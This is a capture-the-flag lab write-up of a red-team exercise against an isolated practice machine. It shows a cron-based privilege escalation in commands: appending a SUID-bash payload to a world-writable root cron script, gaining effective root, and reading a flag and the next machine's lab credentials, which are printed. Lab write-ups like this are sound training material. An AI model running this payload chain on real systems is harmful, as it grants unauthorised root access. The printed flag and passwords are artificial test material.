










# Red Team — M4: nigcl-scheduler

**Target:** `192.168.222.133`  
**Attacker:** Kali Linux (`192.168.222.128`)  
**Vulnerability:** World-writable root cron script  
**MITRE ATT&CK:** T1053.003 — Scheduled Task: Cron  
**Source:** [Official M4 Red Team solution](https://github.com/hacktifytechnologies/Range4/blob/main/machines/M4-nigcl-scheduler/solve_red.md)

> This report follows the official step order. Commands and findings below were verified in the isolated Range4 lab on 23 October 2026. M5 discovery remains deferred.

## Step 1 — SSH login as sysbackup

```bash
ssh sysbackup@192.168.222.133
# Lab password: Sysb@ckup2024
whoami
hostname
id
```

Confirmed: authenticated as `sysbackup`, UID 1001, on `nigcl-scheduler`.



*Evidence: Kali SSH login to M4.*



*Evidence: sysbackup user and hostname verification.*

## Step 2 — Find the root cron job

```bash
cat /etc/crontab
```

Observed: `* * * * * root /opt/nigcl/scripts/maintenance.sh` — executes each minute as root.



*Evidence: Root cron schedule discovered.*

## Step 3 — Check script permissions

```bash
ls -la /opt/nigcl/scripts/maintenance.sh
```

Observed root-owned script with `-rwxrwxrwx` (mode 777). Any local user can modify root-executed content.



*Evidence: World-writable maintenance script.*

## Step 4 — Inject payload

```bash
echo 'cp /bin/bash /tmp/.nb; chmod +s /tmp/.nb' >> /opt/nigcl/scripts/maintenance.sh
tail -n 5 /opt/nigcl/scripts/maintenance.sh
```

The screenshot confirms the payload was appended by `sysbackup`.



*Evidence: Cron script tampering and payload appended.*

## Step 5 — Observe cron-created SUID executable

```bash
watch -n 1 ls -la /tmp/.nb
```

Observed `/tmp/.nb` owned by root with the setuid bit (`-rwsr-sr-x`).



*Evidence: SUID Bash appeared after root cron execution.*

## Step 6 — Escalate to effective UID 0

```bash
/tmp/.nb -p
whoami
id
id -u
id -ru
```

Confirmed `whoami=root`, `euid=0(root)` while the real UID remained `1001(sysbackup)`.



*Evidence: SUID Bash privilege escalation verified.*

Additional file-permission verification:



*Evidence: SUID permission and mount options checked.*

## Step 7 — Read Flag 4 and M5 credentials

```bash
cat /root/flag4.txt
cat /root/secrets.txt
```

**Flag 4:** `FLAG{d56314b53e733ac6_cron_hijack_nigcl}`



*Evidence: Flag 4 captured as effective root.*

The internal access record identifies `nigcl-archive` (classified document store), SSH account `archivist`, SSH port 22, and an M5 subnet hint (`195.0.0.0/8`). The credential shown in the lab is `Arch1v1st@99` (the same value listed in the official solution).



*Evidence: M5 progression hint from secrets.txt.*

## Step 8 — M5 discovery (deferred)

The official solution specifies discovery of M5 and SSH login. M5 has not yet been deployed in this run. **Do not scan the full `195.0.0.0/8` range** unless the entire destination range is isolated and explicitly authorized; restrict future enumeration to the actual Range4 DMZ subnet.


## Outcome

The Red Team confirmed the chain `world-writable maintenance.sh → root cron → SUID Bash → effective root → Flag 4`. The intentionally vulnerable script and SUID artifact remain present until the VM is reset.
